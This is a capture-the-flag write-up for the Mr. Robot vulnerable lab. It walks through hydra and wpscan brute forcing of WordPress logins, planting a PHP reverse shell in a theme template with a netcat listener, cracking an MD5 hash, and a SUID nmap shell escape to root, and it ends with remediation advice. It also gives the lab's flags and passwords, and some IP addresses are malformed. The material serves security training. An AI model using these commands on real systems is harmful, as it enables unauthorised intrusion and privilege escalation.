# Mr. Robot CTF Walkthrough - Vulnerable Lab Writeup

An in-depth security analysis and exploitation walkthrough for the **Mr. Robot** Boot2Root challenge, a popular CTF lab themed around the *Mr. Robot* television series. This report chronicles the systematic exploitation from initial reconnaissance to full administrative root access.

---

## 🛡️ Executive Summary
The compromise of this target was achieved through a multi-stage attack lifecycle:
1. **Reconnaissance & Information Disclosure:** Identifying hidden assets and wordlists within the web root.
2. **Credential Brute-Forcing:** Utilizing XML-RPC multicall optimization to bypass standard user enumeration blocks and extract valid dashboard credentials.
3. **Initial Foothold (Reverse Shell):** Injecting an active reverse shell payload into a legacy WordPress template theme file.
4. **Horizontal Privilege Escalation (User Pivot):** Locating and cracking an unsalted cryptographic legacy hash to pivot to the primary system user.
5. **Vertical Privilege Escalation (Root Takeover):** Exploiting a highly critical misconfiguration involving a native network binary executing with Set Owner User ID (`SUID`) root privileges.

---

## 🔍 Phase 1: Reconnaissance & Enumeration

Initial network sweeps identified an active web service hosting a custom *Mr. Robot* stylized application. Navigating to the standard administrative barrier directory `/robots.txt` revealed critical diagnostic data left open to the public:

```http
User-agent: *
fsocity.dic
key-1-of-3.txt
```

### Flag 1/3 (Foothold)
The location of the first flag was disclosed directly inside the `robots.txt` routing guidelines. Requesting the resource path `http://192.168.0.28` yielded the first successful capture.

### Asset Processing: Dictionary Optimization
The text asset `fsocity.dic` serves as a dedicated wordlist for subsequent authentication attacks. Upon download, analysis revealed the raw file size exceeded 850,000 strings due to heavy padding and line repetitions. 

To eliminate overhead and maximize efficiency, the wordlist was processed and stripped of duplicates natively using `sort`:

```bash
sort -u fsocity.dic > clean.txt
```
*Result:* The dictionary dropped from **858,000+ words** down to a streamlined **11,452 unique entries**, reducing overall network overhead during the authentication crack phase.

---
### 🖼️ Phase 1 Screenshots


---

## 🔐 Phase 2: Bypassing WordPress Authentication

The application environment utilizes an outdated deployment of **WordPress Core 4.3.1**. Standard automated security scans via `wpscan --enumerate u` failed to resolve active authors, indicating hardened profile endpoints or customized filters.

### Username Isolation via Hydra
To discover valid profiles without relying on automated API modules, a target authentication sweep was designed using `hydra`. By feeding the optimized dictionary directly into the login user parameter field and filtering for structural adjustments in the response text, the target was isolated. 

WordPress responds natively with `Invalid username` upon invalid accounts. The attack script monitored for the absence of this failure string:

```bash
hydra -L ./clean.txt -p password_doesnt_matter 192.168.0.28.28 http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:Invalid username'
```

The sweep isolated a valid character profile: **`elliot`**.

### Password Exploitation via XML-RPC Multicall
With the username verified, the brute-force architecture was pivoted to exploit the application's native XML-RPC layer (`/xmlrpc.php`). This method utilizes a protocol optimization technique allowing up to hundreds of credential combinations to be transmitted within a single HTTP request packet, bypassing classic single-entry rate mitigations.

```bash
wpscan --url http://192.168.0.28.28/ --usernames elliot --passwords clean.txt
```

The automated multicall vector successfully cracked the authentication barrier:
*   **Target User:** `elliot`
*   **Resolved Password:** `ER28-0652`

---
### 🖼️ Phase 2 Screenshots




---

## 🪟 Phase 3: Initial Foothold (Reverse Shell Deployment)

Using the cracked credentials, authentication was completed against the management control panel (`/wp-admin/`). Administrative privileges within WordPress grant access to the internal theme file designer layout.

### Shell Code Infiltration
1. Navigated to **Appearance** -> **Editor** within the admin interface menu.
2. Selected the active theme's template core handler, **`404 Template (404.php)`**.
3. Completely deleted the default error-handling framework and replaced it with a custom socket reverse execution payload.
4. Modified the script variables to match the local attack infrastructure:
   ```php
   $ip = '192.168.0.28.21';  // Attacker Local Terminal IP
   $port = 4444;          // Active Listening Port
   ```
5. Committed the modification via the **Update File** utility.

### Executing the Listener Link
An execution terminal local to the attacker machine was initialized to capture the socket handshake:

```bash
nc -lvnp 4444
```

Navigating a web browser directly to the direct theme path triggered the updated error handler script layout: `http://192.168.0.28`. The connection dropped instantly, establishing an unprivileged background `/bin/sh` shell session as the low-privilege application profile `daemon`.

---
### 🖼️ Phase 3 Screenshots










---

## 🚀 Phase 4: Horizontal Privilege Escalation (User Pivot)

The shell was stabilized to support interactive parameters by parsing a pseudo-terminal shell layer natively through Python:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Enumerating /home/robot
Navigating to the default system storage directory `/home` mapped an isolated workspace folder assigned to user `robot`. Exploring this directory exposed two core tracking files:

```bash
daemon@linux:/home/robot$ ls -l
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
```

### Flag 2/3 (User Flag)
The file ownership permissions configuration restricted read access on `key-2-of-3.txt` strictly to the `robot` user (`-r--------`). However, the asset file `password.raw-md5` granted world-readable (`-rw-r--r--`) permissions across the OS layer.

Executing a read operation against the raw md5 container revealed a single colon-separated target credential hash:

```text
robot:c3fcd3d76192e4007dfb496cca67e13b
```

### Cryptographic Resolution
The 32-character hexadecimal string was processed against standard pre-computed alphanumeric dictionary maps. The plain-text translation was cracked instantly:
*   **MD5 Signature:** `c3fcd3d76192e4007dfb496cca67e13b`
*   **Plaintext Output:** `abcdefghijklmnopqrstuvwxyz`

Executing a standard terminal identity switch (`su robot`) and typing the lowercase alphabetical password pivoted the entire session privilege state over to the `robot` user footprint, unlocking read execution for the second flag:

```bash
robot@linux:~$ cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

---
### 🖼️ Phase 4 Screenshots



---

## 👑 Phase 5: Vertical Privilege Escalation (Root Takeover)

To achieve systemic root administrative authority, the target kernel structure and local system binaries were scanned specifically looking for executable files with the **SUID (Set-user-ID)** indicator active. This permission configuration forces the operating system layer to run the binary file with the rights of the file's creator (in this case, `root`) rather than the active terminal profile.

```bash
find / -perm -4000 -type f 2>/dev/null
```

### Vulnerability Identification: SUID Nmap
The automated system scan returned an exceptionally critical permission misconfiguration inside the system binary tree path:

```text
/usr/local/bin/nmap
```

Checking the binary version signature returned **Nmap version 3.81**. Legacy variations of Nmap compiled prior to version 5.21 feature a legacy internal debugging utility called **Interactive Mode**. When paired with a root-owned SUID execution flag, escaping this interface drops the terminal into a root execution state.

### Exploiting Interactive Console Escape
1. Triggered the standalone interactive console environment directly from the target shell:
   ```bash
   nmap --interactive
   ```
2. Escaped out of the execution platform interface and spawned an unmonitored shell shell pass by executing an active exclamation escape block command:
   ```text
   nmap> !sh
   ```
3. The prompt transformed directly into a root administrative `#` symbol indicator line.

```bash
# whoami
root
```

### Flag 3/3 (System Root Flag)
With full system takeover validated, navigation was pointed straight to the high-security system space directory (`/root`) to secure the final lab asset container:

```bash
# cd /root
# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

---
### 🖼️ Phase 5 Screenshots



---

## 🛠️ Security Remediation Guidelines

To protect environments from similar multi-tiered infrastructure compromise chains, apply the following mitigation architecture standards:

*   **Disable Information Leakage Profiles:** Prevent open administrative indexes by locking down `/robots.txt` paths and disabling public read indexing across core file endpoints.
*   **Enforce Strict Patch Policies:** Migrate out-of-date platforms immediately. Legacy platforms such as WordPress Core 4.3.1 lack critical security components against mod-rewrite manipulations and credential enumeration bypass exploits.
*   **Harden SUID File Paths:** Audit system binaries regularly. Standard utilities that support file reads, text modifications, or shell escapes (such as editor paths or network monitoring modules like `nmap`) must never be granted permanent SUID privileges.
*   **Enforce Strong Cryptographic Modernization:** Transition completely away from legacy MD5 hashing architectures. Implement modern salted string configurations such as `bcrypt` or `Argon2` to eliminate quick pre-computed lookup tables.
